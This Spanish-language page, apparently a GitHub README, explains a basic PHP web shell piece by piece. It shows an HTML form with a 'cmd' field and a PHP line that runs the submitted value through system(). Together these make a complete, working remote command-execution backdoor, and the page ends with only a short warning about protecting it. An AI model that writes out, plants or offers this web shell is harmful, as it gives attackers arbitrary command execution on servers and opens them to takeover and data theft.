 # web-shell
Este es un ejemplo básico de un shell web en PHP. Aquí está la descripción de cada parte:

```<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">``` :Este es un formulario HTML que utiliza el método GET para enviar datos. El nombre del formulario es el nombre del archivo PHP actual.

```<input type="TEXT" name="cmd" autofocus id="cmd" size="80">```: Este es un campo de entrada donde los usuarios pueden escribir comandos.

```<input type="SUBMIT" value="Execute">```: Este es un botón que, cuando se presiona, envía el formulario (y cualquier comando que el usuario haya escrito).

```<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>```: Este es el código PHP que toma el comando enviado por el usuario ($_GET['cmd']), verifica si se ha establecido y, si es así, lo ejecuta en el sistema.

Por favor, ten en cuenta que este tipo de shell web puede ser peligroso si se deja sin proteger, ya que permite la ejecución de cualquier comando en el servidor. Deberías asegurarte de que esté adecuadamente protegido y restringido a usuarios autorizados.
